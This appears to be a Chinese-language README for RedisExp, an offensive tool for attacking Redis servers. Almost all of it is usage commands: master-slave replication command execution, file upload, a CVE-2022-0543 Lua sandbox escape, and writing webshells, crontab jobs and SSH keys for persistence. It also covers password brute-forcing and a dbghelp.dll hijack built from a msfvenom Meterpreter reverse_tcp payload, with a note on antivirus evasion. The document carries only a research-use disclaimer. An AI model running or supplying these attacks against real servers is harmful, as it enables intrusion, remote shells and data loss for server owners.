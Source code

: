 ## Redis 漏洞利用工具

快捷使用：`RedisExp`

```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

2022/05/23 23:36:54 [+]  -h 靓仔查看下帮助吧
Example:
主从复制命令执行:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so

主从复制文件上传:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload

主动关闭主从复制:
RedisExp.exe -rhost 192.168.211.131 -slaveof

Lua沙盒绕过命令执行 CVE-2022-0543:
RedisExp.exe -rhost 192.168.211.131 -lua -console

备份写 Webshell:
RedisExp.exe -rhost 192.168.211.131 -shell

Linux 写计划任务:
RedisExp.exe -rhost 192.168.211.131 -crontab

Linux 写 SSH 公钥:
RedisExp.exe -rhost 192.168.211.131 -ssh

爆破 Redis 密码:
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf ../pass.txt

执行 Redis 命令:
RedisExp.exe -rhost 192.168.211.131 -cli

导出 Redis 数据:
RedisExp.exe -rhost 192.168.211.131 -dump

导入 Redis 数据:
RedisExp.exe -rhost 192.168.211.131 -import
```

```
cmd
├── crontab.txt		默认写入的Linux下的crontab定时任务文件，用前需要修改
├── exp.dll			默认导入的Windows Redis模块
├── exp.so			导入的Linux Redis模块
├── main.go			编译攻击主程序
├── out.json		导出导入的 Redis 数据
├── pass.txt		爆破字典
├── shell.txt		默认写入的 Webshell 文件，用前需要修改
└── ssh.txt			默认写入的Linux下的ssh公钥文件，用前需要修改

```



### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------

### 解决

1、导出 Redis 数据

2、利用主从复制漏洞

3、导入 Redis 数据

> **主从复制默认调用了 导出 Redis 数据  和 导入数据，也可以主动导出和导入。**



### 主从复制漏洞

#### 命令执行

- 默认 windows 加载的是 `exp.dll`
- 默认是非交互式 shell

````
Windows:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so
````

![](images/slave_Rce.png)

#### 文件上传

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload
```

![](images/slave_Upload.png)

#### Windows 劫持 dbghelp.dll

https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/#toc-heading-22

1、使用 msf 生成 dll ，（cs 需要自己写一个调用 rundll32 .exe的dll，不能直接使用）

```
# 64 位

msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 -f dll LHOST=192.168.211.130 LPORT=5555 > 64.dll

# 32 位
msfvenom -p windows/meterpreter/reverse_tcp -ax86 -f dll LHOST=ip LPORT=端口 > reverse_32bit.dll
```

2、生成项目DLL后使用Koppeling项目中的Python3脚本来链接到转发DLL: https://github.com/monoxgas/Koppeling

```
python -m pip install pefile

python .\PyClone.py 64.dll C:\windows\system32\dbghelp.dll -o dbghelp.dll
```

3、利用主从复制上传制作好的  dbghelp.dll

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dbghelp.dll -lfile dbghelp.dll -upload
```

4、执行 bgsave 成功上线

```
RedisExp.exe -rhost 192.168.211.134 -cli

bgsave
```

5、dll 需要免杀，好像不太稳定，自行在本地测试再利用。



### RDB备份文件利用

#### 写 Webshell

```
RedisExp.exe -rhost 192.168.211.131 -shell
```

![](images/webshell.png)

#### Linux写计划任务

```
RedisExp.exe -rhost 192.168.211.133 -crontab
```

![](images/crontab.png)

#### Linux写SSH公钥

```
RedisExp.exe -rhost 192.168.211.133 -ssh
```

![](images/ssh.png)

### Lua沙盒绕过命令执行 CVE-2022-0543

```
RedisExp.exe -rhost 192.168.211.130 -lua -console
```

![](images/lua.png)


### 爆破 Redis 密码

```
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf pass.txt
```

![](images/pass.png)


### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/

 


